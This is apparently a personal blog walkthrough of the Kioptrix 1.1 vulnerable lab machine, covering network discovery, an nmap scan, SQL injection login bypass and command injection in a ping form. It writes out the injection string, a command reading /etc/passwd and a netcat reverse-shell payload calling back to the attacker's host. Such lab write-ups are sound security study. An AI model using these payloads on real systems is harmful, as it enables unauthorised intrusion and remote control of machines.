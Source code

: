 ```yaml
---
layout: post
title: Kioptrix 1.1 Walkthrough
---
```

Kioptrix level 1 is under my belt and its time to move on to the next challenge labled "Kioptrix 1.1". I use netdiscover to find the ip of the new target Kioptrix 1.1. 

![Image description](/images/kioptrix1.2.1.png)

The ip of our vulnerable virtual machine is 172.16.158.129. I needed to gather more information about the virtual machine so I used nmap to do a basic scan. 

![Image description](/images/kioptrix1.2.2.png)

Right away I noticed multiple interesting ports to explore. I decided to start with port 80 and I opened up my web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. I am greeted with a login form. 

![Image description](/images/kioptrix1.2.3.png)

I was able to get in with a simple SQL injection.

Login: Admin
Password: ' OR '1'='1

I was then brought to a form that allows you to ping a mahine on the network. I tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

I was able to display the contents of /etc/passwd for later use. However, I still needed to obtain root. I decided to see if I could obtain a shell in a similar way that I displayed /etc/passwd. I set up netcat to listen for any connects on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform and obtained a shell. 

![Image description](/images/kioptrix1.2.6.png)

